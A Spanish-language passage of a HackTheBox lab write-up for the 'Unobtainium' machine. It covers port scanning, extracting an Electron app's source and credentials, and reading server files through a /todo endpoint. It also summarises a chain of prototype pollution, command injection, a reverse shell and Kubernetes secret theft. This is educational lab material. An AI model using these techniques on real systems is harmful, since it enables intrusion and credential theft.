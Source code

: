 ```yaml
---
layout      : post
title       : "HackTheBox - Unobtainium"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338banner.png
category    : [ htb ]
tags        : [ kubernetes, lodash, google-cloudstorage-commands, code-analysis, node.js, pivoting ]
---
```

Máquina Linux nivel difícil. Explotaremos una app de Linux. Jugando con librerías de `JavaScript`, la infectaremos (**Prototype Pollution** en `lodash`)  y haremos **command-injection** (en `google-cloudstorage-commands`). Y moveremos internamente muchas cosas con `Kubernetes`.

![338unobtainiumHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338unobtainiumHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [felamos](https://www.hackthebox.eu/profile/27390).

Bueeeeno, nos encontraremos con un servidor web el cual nos entregara en las manitas un paquete `.deb`, antes de instalarlo en el sistema jugaremos con algunas herramientas para ver el contenido de ese paquete, Instalaremos el paquete **.deb** y obtendremos el binario **unobtainium** en el sistema. La aplicación permite enviar mensajes en forma de "chat" y podremos verlos reflejados ya sea en la web o en la propia app.

Jugaremos y jugaremos para encontrar algunos errores, esos errores hablarán por si solos (y nos apoyaremos de los archivos encontrados en el paquete para darle más fuerza a nuestra búsqueda), lograremos leer archivos de la app usando un apartado llamado `/todo`. Entre eso obtendremos el código fuente de la aplicación.

Inspeccionándolo encontraremos varias brechas en dos librerías de `JavaScript`, un envenenamiento de prototipos (**Prototype Pollution**) en la librería `lodash` y otra **inyectando comandos** sobre `google-cloudstorage-commands`. Jugando con ellas lograremos **ejecución remota de comandos** sobre el contenedor que sirve el app.

Con **Python** creamos este script to lindo, ya sea para obtener una Shell desde él o para ejecutar comandos en el contenedor.

* [pollutionRCE.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/unobtainium/pollutionRCE.py)

Estando dentro del contenedor encontraremos que con lo único que podemos jugar es con `Kubernetes`, moveremos y moveremos (y seguiremos moviendo) cosas para volver a realizar el ataque de **Prototype Pollution + Command Injection** peeeeero ahora sobre el entorno de desarrollo que esta internamente corriendo (antes lo hicimos en el de **producción** :P)

Ya dentro, veremos que podemos listar "secretos" (claves, contraseñas, texto privado, tokens, etc.) de `Kubernetes` (algo que antes no). Uno de esos secretos contiene el token del `admin` de **Kubernetes**, con él tendremos control total contra el servicio (de nuevo) **Kubernetes**. 

Lo que nos dará la opción de crearnos un **pod** ("conjunto de contenedores") malicioso que copie toooooda la raíz del sistema en una carpeta de ese **pod** (a la vez que ejecuta una **Reverse Shell**), así tendremos acceso a todos los archivos.

YA FIN 🧎

...

### Clasificación de la máquina según la gentesita

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Mucha enumeración, algunas vulns conocidas, pero sobre todo bastante llevada a la realidad, me gusta.

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo plasmar lo que hice.

...

SHS 25.

1. [Reconocimiento](#reconocimiento).
  * [Enumeración de puertos con nmap](#enum-nmap).
2. [Enumeración](#enumeracion).
  * [Descubrimos que hay en el servidor web del puerto 80](#puerto-80).
  * [Descargamos un paquete **.deb** alojado en la web y lo desbaratamos](#enum-deb-withar).
3. [Explotación](#explotacion).
  * [Encontramos el código fuente de la **API** con ayuda de **BurpSuite**](#found-indexjs).
  * [Contaminamos prototipos para asignar objeto **canUpdate**](#prototype-pollution).
  * [RCE - **Prototype Pollution (<u>lodash.merge</u>) & Command Injection (<u>google-cloudstorage</u>)**](#prototype-pollution-rce).
4. [Movimiento lateral : docker-webapp -> docker-devnode](#lateral-webapp-devnode).
  * [Jugando con la API** y **kubectl** contra **Kubernetes**](#expl-webapp-api-kubectl).
  * [RCE interno: **Pollution + Command Injection**](#expl-webapp-bash-pollution).
5. [Escalada de privilegios](#escalada-de-privilegios).
  * [Encontramos "secreto" del **admin** y obtenemos interacción total con **Kubernetes**](#lateral-tokenadmin-found).
  * [Generamos **pod** malicioso](#malicious-pod).

...

# Reconocimiento [#](#reconocimiento) {#reconocimiento}

...

## Enumeración de puertos con nmap [📌](#enum-nmap) {#enum-nmap}

Lo primero será encontrar que puertos están abiertos en la máquina, lo haremos apoyados de `nmap`:

```bash
❱ nmap -p- --open -v 10.10.10.235 -oG initScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p-       | Escanea todos los 65535                      |
| --open    | Solo los puertos que están abiertos          |
| -v        | Permite ver en consola lo que va encontrando |
| -oG       | Guarda el output en un archivo con formato grepeable para usar una [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

Este escaneo nos muestra:

```bash
❱ cat initScan
# Nmap 7.80 scan initiated Wed Jun 30 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.235
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.235 ()	Status: Up
Host: 10.10.10.235 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 2379/open/tcp//etcd-client///, 2380/open/tcp//etcd-server///, 8443/open/tcp//https-alt///, 10250/open/tcp/////, 10256/open/tcp/////, 31337/open/tcp//Elite///
# Nmap done at Wed Jun 30 25:25:25 2021 -- 1 IP address (1 host up) scanned in 92.68 seconds
```

| Puerto | Descripción |
| ------ | :---------- |
| 22     | **[SSH](https://www.hackingarticles.in/ssh-penetration-testing-port-22/)**: Posibilidad de obtener una Shell de manera segura. |
| 80     | **[HTTP](https://searchnetworking.techtarget.com/definition/port-80)**: Servidor web. |
| 2379   | **[etcd](https://www.redhat.com/es/topics/containers/what-is-etcd)**: Almacén de datos de **Kubernetes**. |
| 2380   | **[etcd](https://etcd.io/)**: Almacén de datos de **Kubernetes**. |
| 8443   | **[HTTPS](https://www.digicert.com/es/what-is-ssl-tls-https/)**: Servidor web con certificado que lo hace más "seguro". |
| 10250  | No lo sabemos aún |
| 10256  | No lo sabemos tampoco :P |
| 31337  | En [internet dicen](https://www.speedguide.net/port.php?port=31337) que se usa para almacenar backdoors, pero pues no estamos seguros de que contiene aún. |

Teniendo los puertos, vamos a escanear ahora en búsqueda de versiones y scripts relacionados con esos servicios:

**~(Usando la función `extractPorts` (referenciada antes) podemos copiar rápidamente los puertos en la clipboard, así no tenemos que ir uno a uno**
 
```bash
❱ extractPorts initScan 
[*] Extracting information...

    [*] IP Address: 10.10.10.235
    [*] Open ports: 22,80,2379,2380,8443,10250,10256,31337

[*] Ports copied to clipboard
```

**)~**

```bash
❱ nmap -p 22,80,2379,2380,8443,10250,10256,31337 -sC -sV 10.10.10.235 -oN portScan
```

| Parámetro | Descripción |
| --------- | :---------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

Obtenemos:

```bash
❱ cat portScan
# Nmap 7.80 scan initiated Wed Jun 30 25:25:25 2021 as: nmap -p 22,80,2379,2380,8443,10250,10256,31337 -sC -sV -oN portScan 10.10.10.235
Nmap scan report for 10.10.10.235
Host is up (0.11s latency).

PORT      STATE SERVICE          VERSION
22/tcp    open  ssh              OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http             Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Unobtainium
2379/tcp  open  ssl/etcd-client?
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  h2
| tls-nextprotoneg: 
|_  h2
2380/tcp  open  ssl/etcd-server?
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  h2
| tls-nextprotoneg: 
|_  h2
8443/tcp  open  ssl/https-alt
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 403 Forbidden
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     X-Kubernetes-Pf-Flowschema-Uid: 3082aa7f-e4b1-444a-a726-829587cd9e39
|     X-Kubernetes-Pf-Prioritylevel-Uid: c4131e14-5fda-4a46-8349-09ccbed9efdd
|     Date: Wed, 30 Jun 2021 17:06:18 GMT
|     Content-Length: 212
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot get path "/nice ports,/Trinity.txt.bak"","reason":"Forbidden","details":{},"code":403}
|   GenericLines, Help, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     X-Kubernetes-Pf-Flowschema-Uid: 3082aa7f-e4b1-444a-a726-829587cd9e39
|     X-Kubernetes-Pf-Prioritylevel-Uid: c4131e14-5fda-4a46-8349-09ccbed9efdd
|     Date: Wed, 30 Jun 2021 17:06:17 GMT
|     Content-Length: 189
|_    {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot options path "/"","reason":"Forbidden","details":{},"code":403}
|_http-title: Site doesn't have a title (application/json).
| ssl-cert: Subject: commonName=minikube/organizationName=system:masters
| Subject Alternative Name: DNS:minikubeCA, DNS:control-plane.minikube.internal, DNS:kubernetes.default.svc.cluster.local, DNS:kubernetes.default.svc, DNS:kubernetes.default, DNS:kubernetes, DNS:localhost, IP Address:10.10.10.235, IP Address:10.96.0.1, IP Address:127.0.0.1, IP Address:10.0.0.1
| Not valid before: 2021-06-29T16:59:25
|_Not valid after:  2022-06-30T16:59:25
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|_  http/1.1
10250/tcp open  ssl/http         Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
| ssl-cert: Subject: commonName=unobtainium@1610865428
| Subject Alternative Name: DNS:unobtainium
| Not valid before: 2021-01-17T05:37:08
|_Not valid after:  2022-01-17T05:37:08
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|_  http/1.1
10256/tcp open  http             Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
31337/tcp open  http             Node.js Express framework
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8443-TCP:V=7.80%T=SSL%I=7%D=6/30%Time=60DCA3A3%P=x86_64-pc-linux-gn
SF:u%r(HTTPOptions,203,"HTTP/1....................................20Reques
...
# cositas que no nos sirven
...
SF:t");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 30 25:25:25 2021 -- 1 IP address (1 host up) scanned in 234.27 seconds
```

Podemos destacar algunas cosas:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 22     | SSH      | OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 |
| 80     | HTTP     | Apache httpd 2.4.41 |
| 2379   | HTTPS    | No esta seguro, pero vamos a quedarnos con ese resultado: etcd-client |
| 2380   | HTTPS    | Igual, vamos a quedarnos con ese resultado: etcd-server |
| 8443   | HTTPS    | No nos muestra |

* Un formato `json` algo interesante:

```json
{
  ...
  "message":"forbidden: User "system:anonymous" cannot get path "/nice ports,/Trinity.txt.bak"",
  ...
}
```

* Vemos un archivo que quizás sea relevante como pueda que no, guardémoslo: `/Trinity.txt.bak`.
* Un dominio `control-plane.minikube.internal`, realmente varios, pero este me llama la atención.

---

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 10250  | HTTPS    | Golang net/http server (Go-IPFS json-rpc or InfluxDB API) |

* Un nombre de servidor algo extraño: `unobtainium@1610865428`.

---

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 10256  | HTTP     | Golang net/http server (Go-IPFS json-rpc or InfluxDB API) |
| 31337  | HTTPS    | Node.js Express framework |

Opa, bastantes cositas, pues empecemos a jugar con cada uno a ver por donde le damos duro a esta máquina.

...

# Enumeración [#](#enumeracion) {#enumeracion}

...

## Puerto 80 [📌](#puerto-80) {#puerto-80}

![338page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338page80.png)

Una web sencilla describiéndonos una aplicación para chatear... Vemos 4 botones, los 4 contienen redirects:

```bash
- Unobtainium nos lleva a http://10.10.10.235/downloads/checksums.txt
- Download deb a http://10.10.10.235/downloads/unobtainium_debian.zip
- Download rpm a http://10.10.10.235/downloads/unobtainium_redhat.zip
- Download snap a http://10.10.10.235/downloads/unobtainium_snap.zip
```

Si vamos al link de **Unobtainium** encontramos los hashes correspondientes a cada binario subido (que supongo estarán dentro de los `.zip`), estos hashes nos **sirven para comprobar que lo que descarguemos no ha sido modificado en el proceso**.

![338page80_checksums](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338page80_checksums.png)

### Jugando con unobtainium_debian.zip

¿Por qué el de Debian? Bueno, estoy en **ParrotOS** y es un sistema operativo basado en **Debian** y `deb` hace referencia a los paquetes de software para <u>Deb</u>ian.

Lo descargamos en la máquina, lo descomprimimos y obtenemos:

```bash
❱ ls 
unobtainium_1.0.0_amd64.deb  unobtainium_1.0.0_amd64.deb.md5sum
```

Hacemos la comprobacion de hashes:

```bash
❱ curl -s http://10.10.10.235/downloads/checksums.txt | grep deb
c9fe8a2bbc66290405803c3d4a37cf28  unobtainium_1.0.0_amd64.deb
❱ md5sum unobtainium_1.0.0_amd64.deb
c9fe8a2bbc66290405803c3d4a37cf28  unobtainium_1.0.0_amd64.deb
```

Listo, todo perfecto con el paquete, es el original.

---

## Abrimos el paquete <u>.deb</u> [📌](#enum-deb-withar) {#enum-deb-withar}

Algo que encontré bastante interesante fue que [los paquetes **<u>.deb</u>** traen consigo 3 archivos](https://www.cyberciti.biz/faq/how-to-extract-a-deb-file-without-opening-it-on-debian-or-ubuntu-linux/) que son los que contienen lo que se va a instalar en el sistema:

* `debian-binary` que contiene la versión del paquete `.deb`.
* `control.tar.gz` que tiene algunos hashes y los controles para la construcción del paquete.
* Y `data.tar.gz` que contiene todos los archivos a ser instalados.

Para verlos, podemos jugar con la herramienta [ar](https://www.geeksforgeeks.org/ar-command-in-linux-with-examples/) y su parámetro `t`:

```bash
❱ ar t unobtainium_1.0.0_amd64.deb 
debian-binary
control.tar.gz
data.tar.xz
```

Y para extraerlos del paquete usamos el parámetro `x`:

```bash
❱ ar x unobtainium_1.0.0_amd64.deb
❱ ls
control.tar.gz  data.tar.xz  debian-binary  unobtainium_1.0.0_amd64.deb
```

Bien, ahora para extraer el contenido de esos comprimidos jugamos con `tar`:

🔦 **<u>control</u>**:

```bash
❱ tar xvf control.tar.gz 
./
./postinst
./postrm
./control
./md5sums
```

🔦 **<u>data</u>**:

```bash
❱ tar xvf data.tar.xz
./
./usr/
./usr/share/
...
...
...
./opt/unobtainium/LICENSES.chromium.html
./opt/unobtainium/libvk_swiftshader.so
```

Bien, enumerando los dos encontramos algunas cosas muy lindas...

---

### Exploramos el contenido de <u>data.tar.gz</u> [🧷](#inside-data-tar-gz) {#inside-data-tar-gz}

Nos extrae dos carpetas, `/usr` (que tiene el icono del programa y cosas de cara al usuario) y `/opt` (que tiene todos los archivos necesarios para instalar el binario y su correcto funcionamiento)...

Basándome en una máquina que hicimos que usaba **Electron** recordé que existe un archivo `.asar` el cual contiene todos los fuentes y código con el que fue creado algún proyecto. 

Pues buscandoooo lo encontramos en `/opt/unobtainium/resources` (: Ya con ese archivo podemos aprovechar el uso de un módulo de **node** para obtener el código fuente de la aplicación, en este caso del binario **unobtainium**.

* [How to get the source code of any electron application](https://medium.com/how-to-electron/how-to-get-source-code-of-any-electron-application-cbb5c7726c37).

Siguiendo los pasos de ese recurso logramos extraer varios archivos:

```bash
❱ mkdir files_unobtainium
❱ asar extract app.asar files_unobtainium/
```

```bash
❱ cd files_unobtainium/
❱ ls
index.js  package.json  src
```

Viendo el archivo `package.json` obtenemos un posible usuario, vemos un dominio y un email:

```json
❱ cat package.json
{
  "name": "unobtainium",
  "version": "1.0.0",
  "description": "client",
  "main": "index.js",
  "homepage": "http://unobtainium.htb",
  "author": "felamos <felamos@unobtainium.htb>",
  "license": "ISC"
}
```

En la carpeta `src/` están todos los archivos usados por la aplicación:

```bash
❱ tree src/
src/
├── css
│   ├── bootstrap.min.css
│   └── dashboard.css
├── get.html
├── index.html
├── js
│   ├── app.js
│   ├── bootstrap.bundle.min.js
│   ├── Chart.min.js
│   ├── check.js
│   ├── dashboard.js
│   ├── feather.min.js
│   ├── get.js
│   ├── jquery.min.js
│   └── todo.js
├── post.html
└── todo.html
```

**No vamos a repasar todos, pero si destacaremos cositas...**

Por ejemplo el archivo `src/js/app.js` toma el valor de una variable llamada `message` y lo sube (método **PUT**) al servicio `http://unobtainium.htb:31337/`:

```js
$(document).ready(function(){
    $("#but_submit").click(function(){
        var message = $("#message").val().trim();
        $.ajax({
        url: 'http://unobtainium.htb:31337/',
        type: 'put',
        dataType:'json',
        contentType:'application/json',
        processData: false,
        data: JSON.stringify({"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"text": message}}),
        success: function(data) {
            //$("#output").html(JSON.stringify(data));
            $("#output").html("Message has been sent!");
        }
    });
});
});
```

> **Además del pequeño detalle que tenemos unas credenciales** 😲

Pues veamos esto en funcionamiento... 

Ya vimos los fuentes y no hay nada extraño que nos haga pensar que vamos a ser espiados :P instalémosla:

```bash
❱ dpkg -i unobtainium_1.0.0_amd64.deb
```

Después de unos segundos ya lo tendríamos instalado en el sistema, lo ejecutamos y obtenemos:

![338bash_exec_unobtainiumDEB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338bash_exec_unobtainiumDEB.png)

Es una aplicación creada con [**Electron**](https://www.electronjs.org/) (ya hemos visto cositas de él en otro post que no reseño para no spoiler la máquina en la que se usa, pero esta por acá).

Al abrirlo nos indica que no encuentra el dominio `unobtainium.htb`, pues agregándolo al archivo [/etc/hosts](https://tldp.org/LDP/solrhe/Securing-Optimizing-Linux-RH-Edition-v1.3/chap9sec95.html) se soluciona:

```bash
❱ cat /etc/hosts
...
10.10.10.235  unobtainium.htb
...
```

![338bash_exec_unobtainiumDEB_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338bash_exec_unobtainiumDEB_done.png)

Esto nos da a entender que el software se esta comunicando para X cosa con la dirección IP `10.10.10.235`, o sea, la máquina (**ya vimos en los archivos del paquete el porqué**)...

Dando algunas vueltas y clics llegamos al apartado **Todo**:

![338bash_exec_unobtainiumDEB_todo](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338bash_exec_unobtainiumDEB_todo.png)

Tenemos una lista de tareas, pero me dejan más perdido de lo que estaba, así que seguí probando el software y caemos en **Post Messages**:

![338bash_exec_unobtainiumDEB_postMessages](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338bash_exec_unobtainiumDEB_postMessages.png)

Que si recordamos estaba el archivo `app.js` que era el encargado de esta parte, la de postear los mensajes en la ruta `http://unobtainium.htb:31337/`. 

Después de mandar algunos mensajes ("hola", "test" y "esto") y estar visitando esa **URL** vemos que por cada petición varía lo que se muestra, no siempre tenemos el mismo output aunque no cambiemos nada en la petición, hagamos un bucle de 10 peticiones para que se entienda lo que digo:

> *(Cada vez que subimos un mensaje nos tiene que responder `Message has been sent!`, si no, no se esta subiendo el mensaje)*

```bash
❱ for i in $(seq 1 10); do echo -n "$i >> "; curl -k -s http://unobtainium.htb:31337; echo; sleep 1; done
```

```bash
1 >> [{"icon":"__","text":"hola","id":1,"timestamp":1625093446861,"userName":"felamos"},{"icon":"__","text":"test","id":2,"timestamp":1625093587859,"userName":"felamos"}]
2 >> [{"icon":"__","text":"hola","id":1,"timestamp":1625093446861,"userName":"felamos"},{"icon":"__","text":"test","id":2,"timestamp":1625093587859,"userName":"felamos"}]
3 >> [{"icon":"__","text":"esto","id":1,"timestamp":1625093741331,"userName":"felamos"}]
4 >> [{"icon":"__","text":"hola","id":1,"timestamp":1625093446861,"userName":"felamos"},{"icon":"__","text":"test","id":2,"timestamp":1625093587859,"userName":"felamos"}]
5 >> [{"icon":"__","text":"esto","id":1,"timestamp":1625093741331,"userName":"felamos"}]
6 >> [{"icon":"__","text":"esto","id":1,"timestamp":1625093741331,"userName":"felamos"}]
7 >> []
8 >> [{"icon":"__","text":"hola","id":1,"timestamp":1625093446861,"userName":"felamos"},{"icon":"__","text":"test","id":2,"timestamp":1625093587859,"userName":"felamos"}]
9 >> []
10 >> [{"icon":"__","text":"esto","id":1,"timestamp":1625093741331,"userName":"felamos"}]
```

Todas son creadas por **felamos** (también lo vimos en el archivo `app.js`). No sé el porqué a veces no muestra o muestra cualquier mensaje... Pero bueno, los vemos reflejados en el puerto **31337**, o sea, esa es la API de la que se habla en el ítem 2 del **todo**.

Además tenemos el formato con el que son guardadas, vemos un campo `icon` (que no me imagino para que pueda ser) y los demás que si tienen sentido.

...

# Explotación [#](#explotacion) {#explotacion}

Jugando con **BurpSuite** y con las variables de entorno en **Linux** logramos interceptar la petición al enviar un mensaje:

Validamos el puerto por el que escucha el proxy de **Burp**:

![338burp_check_port](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338burp_check_port.png)

Seteamos una variable de **Linux** que toma el proxy:

```bash
❱ export http_proxy=http://127.0.0.1:8080/
```

Ponemos a **Burp** en escucha y enviamos un mensaje:

![338bash_exec_unobtainiumDEB_burp](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338bash_exec_unobtainiumDEB_burp.png)

Y en **Burp** recibimos:

![338burp_unobtainium_message_burp](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338burp_unobtainium_message_burp.png)

> (Si nos les funciona a la primera, cierren el programa, pongan el proxy en escucha y vuelvanlo a abrir. O pueda que hayan declarado la variable en una terminal distinta de la que usan para ejecutar el binario :O)

Vemos como viaja la petición, tenemos la versión de **Electron** y de nuevo las credenciales 🙃

> No logramos hacer nada al intentar injectar cositas con el mensaje :(

...

## Encontramos el código fuente de la API [📌](#found-indexjs) {#found-indexjs}

Dándole algunas vuelticas al binario y sus peticiones me llamo la atención lo que hace cuando vemos la lista de tareas, o sea, `Todo`:

![338burp_unobtainium_todo](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338burp_unobtainium_todo.png)

Vemos que la lista la obtiene de un archivo llamado `todo.txt` :o Esto nos da ideas de intentar leer otros archivos, intentando e intentando no encontramos ningún archivo 😔, pero encontramos un error al probar algunas cadenas o incluso dejando el campo vacío 😄

![338burp_unobtainium_todo_error](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338burp_unobtainium_todo_error.png)

Y si, no encuentra X archivo por lo tanto no sabe que hacer y devuelve un error (lo que esta mal es que se muestre el error así como así :P).

Vemos unas rutas:

```html
/usr/src/app/index.js
/usr/src/app/node_modules/express/lib/router/route.js
/usr/src/app/node_modules/express/lib/router/layer.js
/usr/src/app/node_modules/express/lib/router/index.js
```

Ver esas rutas me dio la idea de buscar en el sistema los archivos relacionados con **unobtainium** a ver si había alguno llamado `todo.txt` y así tener una idea de donde esta tomándolo el servidor web (pero nelson, no encontramos) 

(Pruebas, pruebas y pruebas) Apoyados en nuestra "abrizhion del paquete" vemos que el archivo `/usr/src/app/index.js` también lo tenemos y esta junto al objeto `package.json` (que ya vimos antes).

Pues enviando tanto el archivo `index.js` como `package.json` en el campo `filename` logramos obtener respuesta (: 

🔦 **<u>package.json</u>**:

![338burp_unobtainium_todo_packageJSON](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338burp_unobtainium_todo_packageJSON.png)

Tomamos el contenido y lo guardamos en un archivo, para pasarlo a un formato más lindo podemos hacer esto:

Remplazamos el texto `\n` por un salto de línea real y quitamos los escapes que hay en las comillas:

```bash
❱ sed -i 's/\\n/\n/g' todo_package.json 
❱ sed -i 's/\\"/"/g' todo_package.json 
❱ cat todo_package.json 
```

```json
{
  "name": "Unobtainium-Server",
  "version": "1.0.0",
  "description": "API Service for Electron client",
  "main": "index.js",
  "scripts": {
    "start": "node index.js"
  },
  "author": "felamos",
  "license": "ISC",
  "dependencies": {
    "body-parser": "1.18.3",
    "express": "4.16.4",
    "lodash": "4.17.4",
    "google-cloudstorage-commands": "0.0.1"
  },
  "devDependencies": {}
}
```

Opa, es la descripción del app, vemos las dependencias (librerías que usa) y sus versiones, me gusta. 

Dándole un formato lindo al archivo `index.js` obtenemos el código base de la aplicación :o

```bash
❱ sed -i 's/\\n/\n/g' todo_index.js 
❱ sed -i 's/\\t/  /g' todo_index.js 
❱ sed -i 's/\\"/"/g' todo_index.js 
❱ cat todo_index.js
```

> Agregue unos comentarios para que sea un poco más entendible cada parte.

```js
var root = require("google-cloudstorage-commands");
const express = require('express');
const { exec } = require("child_process");
const bodyParser = require('body-parser');
const _ = require('lodash');
const app = express();
var fs = require('fs');

const users = [
  {name: 'felamos', password: 'Winter2021'},
  {name: 'admin', password: Math.random().toString(32), canDelete: true, canUpload: true},
];

let messages = [];
let lastId = 1;

function findUser(auth) {
  return users.find((u) =>
    u.name === auth.name &&
    u.password === auth.password);
}

app.use(bodyParser.json());

// Validamos el mensaje que creamos (Método GET)
app.get('/', (req, res) => {
  res.send(messages);
});

// Sube el mensaje (Método PUT)
app.put('/', (req, res) => {
  const user = findUser(req.body.auth || {});

  if (!user) {
    res.status(403).send({ok: false, error: 'Access denied'});
    return;
  }

  const message = {
    icon: '__',
  };

  _.merge(message, req.body.message, {
    id: lastId++,
    timestamp: Date.now(),
    userName: user.name,
  });

  messages.push(message);
  res.send({ok: true});
});

// Borra el mensaje (Método DELETE)
app.delete('/', (req, res) => {
  const user = findUser(req.body.auth || {});

  if (!user || !user.canDelete) {
    res.status(403).send({ok: false, error: 'Access denied'});
    return;
  }

  messages = messages.filter((m) => m.id !== req.body.messageId);
  res.send({ok: true});
});

// Al parecer sube un archivo (Método POST)
app.post('/upload', (req, res) => {
  const user = findUser(req.body.auth || {});
  if (!user || !user.canUpload) {
    res.status(403).send({ok: false, error: 'Access denied'});
    return;
  }

  filename = req.body.filename;
  root.upload("./",filename, true);
  res.send({ok: true, Uploaded_File: filename});
});

// Extrae la info de un archivo y la muestra (Método POST)
app.post('/todo', (req, res) => {
  const user = findUser(req.body.auth || {});
  if (!user) {
    res.status(403).send({ok: false, error: 'Access denied'});
    return;
  }

  filename = req.body.filename;
        testFolder = "/usr/src/app";
        fs.readdirSync(testFolder).forEach(file => {
                if (file.indexOf(filename) > -1) {
                        var buffer = fs.readFileSync(filename).toString();
                        res.send({ok: true, content: buffer});
                }
        });
});

app.listen(3000);
console.log('Listening on port 3000...');
```

Perfecto, perfectisimoooooooooooooooooooooooo, varias cositas para ver...

Vemos los usuarios encargados de hacer las peticiones, a **admin** es la primera vez que lo vemos, pero poco podemos hacer con él, ya que su contraseña es random :( 

> **<u>admin</u>** tiene dos items que **<u>felamos</u>** no tiene, `canDelete` y `canUpdate`, los dos están en **<u>true</u>**. 

Esto toma sentido si miramos la función que sube un archivo:

